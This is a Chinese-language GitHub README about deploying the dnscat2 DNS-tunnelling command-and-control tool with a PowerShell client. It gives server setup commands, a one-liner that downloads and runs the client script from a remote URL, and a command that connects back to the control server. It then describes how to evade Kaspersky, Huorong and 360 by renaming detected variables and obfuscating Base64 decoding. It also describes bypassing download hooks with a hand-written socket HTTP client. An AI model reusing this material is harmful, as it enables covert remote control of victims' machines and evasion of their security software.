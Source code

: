 
### 作者: Mob2003

github地址
https://github.com/Mob2003/dnscat2-powershell


### 1、简介

dnscat2是一个DNS隧道工具，通过DNS协议创建加密的命令和控制通道，它的一大特色就是服务端会有一个命令行控制台，所有的指令都可以在该控制台内完成。包括：文件上传、下载、反弹Shell……

### 2、服务端安装

项目地址

```shell
https://github.com/iagox86/dnscat2
```

ubuntu 20.04安装说明

```shell
apt install ruby-dev
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/server/
gem install bundler
bundle install
```

启动服务端

```shell
ruby ./dnscat2.rb --no-cache --secret=12345678 www.baidu.com
```

### 3、powershell客户端使用

项目地址

```shell
https://github.com/lukebaggett/dnscat2-powershell
```

打开powershell

```shell
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/lukebaggett/dnscat2-powershell/master/dnscat2.ps1')
```

连接服务器

```shell
start-Dnscat2 -PreSharedSecret 12345678 -DNSServer 服务器ip  -Domain www.baidu.com
```

如果一切正常，你就可以在服务器上命令行看到New window created
![image](https://user-images.githubusercontent.com/128351726/230552554-32ee3c72-d2ab-4d3e-9b0a-a1d742f681cf.png)


### 4、靶机测试

靶机win10，安装《卡巴斯基》，《火绒》，《360》软件
执行上面命令，这时候会发现有两个问题

- IEX Download后被杀
- 输入命令还没下载就被关掉窗口

### 5、过静态查杀

针对第一个问题，下载ps1源码，对其中变量名，函数调用进行修改与打乱即可，特征大概有两个

1. 源码第三行 $EncodedCompressedFile 

2. 源码第六行，连续调用IO.Compression.DeflateStream 与[IO.MemoryStream][Convert]::FromBase64String
   那么只需要对$EncodedCompressedFile 改个名字，另外再把Frombase64String提取出来做个函数，如下图

![image](https://user-images.githubusercontent.com/128351726/230552595-002a4fe4-9fd2-4bfd-a989-7e3d5102904a.png)


   现在使用各大软件扫描，静态查杀已经通过
   
  ![image](https://user-images.githubusercontent.com/128351726/230552704-80dd3275-5ccc-4a01-83bf-2b37b7cf9424.png)
   
   ### 6、绕过DownloadString限制
   
   高达300多kb的客户端，如果靶机没有文件上传的话，还是很麻烦的，所以要想办法从powershell下载执行。
   经测试360把Webclient的所有下载方法都进行了hook检测，只要有下载动作就强行下载。这里我的解决方案就是，使用socket编程，手撸一个http客户端
   注意，只支持http，不支持https
   
  ![image](https://user-images.githubusercontent.com/128351726/230552751-91b673ba-cd99-40ee-b901-4215676808c4.png)

   拷贝到powershell上执行，没有问题

![image](https://user-images.githubusercontent.com/128351726/230552874-28a2a6ca-b1e1-4825-811f-153f16a60e63.png)


